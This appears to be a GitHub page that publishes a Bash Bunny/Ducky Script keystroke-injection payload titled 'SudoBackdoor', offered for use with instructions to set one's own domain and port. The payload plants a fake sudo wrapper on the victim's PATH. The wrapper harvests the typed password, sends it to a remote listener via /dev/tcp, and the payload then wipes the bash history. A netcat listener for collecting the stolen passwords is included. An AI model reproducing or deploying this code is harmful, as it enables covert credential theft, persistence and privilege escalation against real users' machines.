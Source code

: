 Payload originally designed by oXis for Bash Bunny..

Bash Bunny Payload page: https://github.com/hak5/bashbunny-payloads/tree/master/payloads/library/credentials/SudoBackdoor

Change example.com to your own domain or listening IP address and 1337 to your own port of choice.

```
REM Original Author: oXis
REM Modified by 5h@d0w
DELAY 2000
GUI space
DELAY 500
ALT F2
DELAY 500
BACKSPACE
DELAY 100
STRING terminal
ENTER
DELAY 3000
STRING mkdir -p ~/.config/sudo
ENTER
DELAY 100
STRING rm  ~/.config/sudo/sudo
ENTER
DELAY 100
STRING echo '#!/bin/bash
ENTER
STRING /usr/bin/sudo -n true 2>/dev/null
ENTER
STRING if [ $? -eq 0 ]
ENTER
STRING then
ENTER
STRING /usr/bin/sudo $@
ENTER
STRING else
ENTER
STRING echo -n "[sudo] password for $USER: "
ENTER
STRING read -s pwd
ENTER
STRING echo
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null
ENTER
STRING if [ $? -eq 1 ]
ENTER
STRING then
ENTER
STRING echo "$USER:$pwd:invalid" > /dev/tcp/example.com/1337
ENTER
STRING echo "Sorry, try again."
ENTER
STRING sudo $@
ENTER
STRING else
ENTER
STRING echo "$USER:$pwd:valid" > /dev/tcp/example.com/1337
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S $@
ENTER
STRING fi
ENTER
STRING fi' > ~/.config/sudo/sudo
ENTER
DELAY 600
STRING chmod u+x ~/.config/sudo/sudo
ENTER
DELAY 800
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bash_profile
ENTER
DELAY 500
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bashrc
ENTER
DELAY 500
STRING history -c && rm .bash_history && exit
ENTER
DELAY 1000
GUI q
```

Use this bash script to listen on your server:

```
#!/bin/bash
while [ true ]
do
netcat -vv -lp 1337 >> passwd.txt
done
```
